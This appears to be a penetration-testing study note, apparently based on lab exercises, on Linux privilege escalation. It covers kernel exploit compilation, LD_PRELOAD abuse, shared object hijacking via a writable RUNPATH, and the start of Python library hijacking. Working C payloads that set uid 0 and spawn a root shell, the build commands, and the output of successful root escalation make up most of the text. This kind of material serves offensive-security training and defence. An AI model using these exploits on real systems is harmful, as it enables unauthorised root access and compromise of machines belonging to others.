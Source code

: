 # ☄️ Linux Internals-based Privilege Escalation

## Kernel Exploits

Kernel level exploits exist for a variety of Linux kernel versions. A very well-known example is [Dirty COW](https://github.com/dirtycow/dirtycow.github.io) (CVE-2016-5195). These leverage vulnerabilities in the kernel to execute code with root privileges.

First we check the Kernel level and Linux OS version.

```shell-session
uname -a
```

```shell-session
cat /etc/lsb-release 
```

So here we have a Linux Kernel 4.4.0-116 on an Ubuntu 16.04.4 LTS box. After looking online we have `linux 4.4.0-116-generic exploit` comes up with [this](https://vulners.com/zdt/1337DAY-ID-30003) exploit PoC. We need to compile the exploit code using [gcc](https://linux.die.net/man/1/gcc) and set the executable bit

```shell-session
gcc kernel_exploit.c -o kernel_exploit && chmod +x kernel_exploit
```

Then we can run it and hopefully we'll get a root shell

```shell-session
./kernel_exploit 
```

## Shared Libraries

It is common for Linux programs to use dynamically linked shared object libraries. Libraries contain compiled code or other data that developers use to avoid having to re-write the same pieces of code across multiple programs.

There are  `static libraries` (denoted by the .a file extension) and `dynamically linked shared object libraries` (denoted by the .so file extension)

&#x20;the `LD_PRELOAD` environment variable can load a library before executing a binary. The shared objects required by a binary can be viewed using the `ldd` utility.

```shell-session
htb_student@NIX02:~$ ldd /bin/ls
	linux-vdso.so.1 =>  (0x00007fff03bc7000)
	libselinux.so.1 => /lib/x86_64-linux-gnu/libselinux.so.1 (0x00007f4186288000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f4185ebe000)
	libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f4185c4e000)
<SNIP>
```

The output above lists all the libraries required by `/bin/ls`

`To` escalate privileges with  [LD\_PRELOAD](https://blog.fpmurphy.com/2012/09/all-about-ld\_preload.html) we need a user with `sudo` privileges.

```shell-session
htb_student@NIX02:~$ sudo -l
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD
User daniel.carter may run the following commands on NIX02:
    (root) NOPASSWD: /usr/sbin/apache2 restart
```

we can exploit the `LD_PRELOAD` issue to run a custom shared library file.

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

We can compile it with this command ->

```shell-session
gcc -fPIC -shared -o root.so root.c -nostartfiles
```

And our privesc would look like this:

```shell-session
htb_student@NIX02:~$ sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart
id
uid=0(root) gid=0(root) groups=0(root)
```

## Shared Object Hijacking

Programs and binaries under development usually have custom libraries associated with them.

```shell-session
htb-student@NIX02:~$ ls -la payroll
-rwsr-xr-x 1 root root 16728 Sep  1 22:05 payroll
```

We can use [ldd](https://manpages.ubuntu.com/manpages/bionic/man1/ldd.1.html) to print the shared object required by a binary or shared object.

```shell-session
htb-student@NIX02:~$ ldd payroll
linux-vdso.so.1 =>  (0x00007ffcb3133000)
libshared.so => /lib/x86_64-linux-gnu/libshared.so (0x00007f7f62e51000)
```

We see a non-standard library named `libshared.so`

Now we can  to load shared libraries from custom locations. To do this we can use the `RUNPATH` configuration. **Libraries in this folder are given preference over other folders**. This can be inspected using the [readelf](https://man7.org/linux/man-pages/man1/readelf.1.html) utility.

```shell-session
htb-student@NIX02:~$ readelf -d payroll  | grep PATH
 0x000000000000001d (RUNPATH)            Library runpath: [/development]
```

The configuration allows the loading of libraries from the `/development` folder, which is writable by all users.&#x20;

placing a malicious library in `/development`, which will take precedence over other folders because entries in this file are checked first

Before compiling a library, we need to find the function name called by the binary.

```shell-session
htb-student@NIX02:~$ ldd payroll
linux-vdso.so.1 (0x00007ffd22bbc000)
libshared.so => /development/libshared.so (0x00007f0c13112000)
/lib64/ld-linux-x86-64.so.2 (0x00007f0c1330a000)
```

```shell-session
htb-student@NIX02:~$ cp /lib/x86_64-linux-gnu/libc.so.6 /development/libshared.so
```

```shell-session
htb-student@NIX02:~$ ./payroll 
./payroll: symbol lookup error: ./payroll: undefined symbol: dbquery
```

We can copy an existing library to the `development` folder. Running `ldd` against the binary lists the library's path as `/development/libshared.`so, which means that it is vulnerable. Executing the binary throws an error stating that it failed to find the function named `dbquery`. We can compile a shared object which includes this function.

```c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

void dbquery() {
    printf("Malicious library loaded\n");
    setuid(0);
    system("/bin/sh -p");
} 
```

Then we can compile

```shell-session
gcc src.c -fPIC -shared -o /development/libshared.so
```

```shell-session
htb-student@NIX02:~$ ./payroll 
***************Inlane Freight Employee Database***************
Malicious library loaded
# id
uid=0(root) gid=1000(mrb3n) groups=1000(mrb3n)
```

## Python Library Hijacking

&#x20;there are three basic vulnerabilities where hijacking can be used:

1. Wrong write permissions
2. Library Path
3. PYTHONPATH environment variable

### Wrong Write Permissions

If we look at the set permissions of the `mem_status.py` script, we can see that it has a `SUID` set.

```shell-session
htb-student@lpenix:~$ ls -l mem_status.py
-rwsrwxr-x 1 root mrb3n 188 Dec 13 20:13 mem_status.py
```

we can execute this script with the privileges of root

In the content of the python script there is this import ->

```python
#!/usr/bin/env python3
import psutil
available_memory = psutil.virtual_memory().available * 100 / psutil.virtual_memory().total
print(f"Available memory: {round(available_memory, 2)}%")
```

So we can look for this function in the folder of `psutil` and check if this module has write permissions for us.

```shell-session
htb-student@lpenix:~$ grep -r "def virtual_memory" /usr/local/lib/python3.8/dist-packages/psutil/*
/usr/local/lib/python3.8/dist-packages/psutil/__init__.py:def virtual_memory():
<SNIP>
htb-student@lpenix:~$ ls -l /usr/local/lib/python3.8/dist-packages/psutil/__init__.py
-rw-r--rw- 1 root staff 87339 Dec 13 20:07 /usr/local/lib/python3.8/dist-packages/psutil/__init__.py
```
